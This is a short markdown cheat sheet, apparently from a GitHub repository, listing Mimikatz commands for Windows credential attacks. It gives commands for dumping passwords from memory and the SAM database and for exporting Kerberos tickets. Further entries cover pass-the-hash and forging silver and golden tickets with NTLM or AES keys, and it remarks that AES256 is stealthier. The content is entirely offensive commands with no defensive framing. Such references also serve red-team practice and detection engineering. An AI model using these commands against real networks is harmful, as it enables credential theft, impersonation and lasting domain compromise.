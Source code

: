 ## dump passwords from memory
- `sekurlsa::logonpasswords`

## dump passwords from sam database
- `lsadump::sam /system:f:\SYSTEM /sam:f:\SAM`

## export tickets
- `sekurlsa::tickets /export`

## pass the hash
- `sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash`

## silver_ticket
### to generate the TGS with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### Inject TGS with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

## golden_ticket

### to generate the TGT with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>`

### to generate the TGT with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>`

### to generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>`
